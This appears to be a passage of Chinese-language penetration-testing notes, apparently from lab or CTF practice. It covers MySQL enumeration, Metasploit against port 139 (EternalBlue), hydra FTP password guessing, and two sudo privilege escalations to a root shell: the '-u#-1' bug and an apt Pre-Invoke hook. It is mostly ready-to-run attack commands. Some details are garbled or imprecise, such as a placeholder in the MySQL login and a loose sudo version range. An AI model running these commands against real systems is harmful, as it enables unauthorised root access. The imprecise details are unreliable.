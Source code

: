 ```
登录
mysql -uroot -用户名 -h 10.4.7.132

show databases 查看数据库。
use ...   进入。。。数据库
show tables 查看表
desc ... 查看。。。中的段
select ...,...,... from 。。。查看。。。表中的...,...,...段的值。

```

#### 139

139端口，这个端口是一个高危端口，它是永痕之蓝的常用端口之一。我们现在使用msf直接获取他的root权限。

使用msf

#### hydra

没有密码。

hydra -L user.txt -e nsr 192.168.47.142 ftp



#### sudo -l 枚举

##### 1,

sudo -V | grep version

查看sudo的版本。

在1.8之前有一个漏洞。

即执行命令

sudo -u#-1 /bin/bash



##### 2,apt

sudo -l

发现有apt

```
(root) NOPASSWD:/usr/bin/apt
```

执行如下命令

```
sudo apt update -o APT::Update::Pre-Invoke::=/bin/bash
```



##### 3，apache2
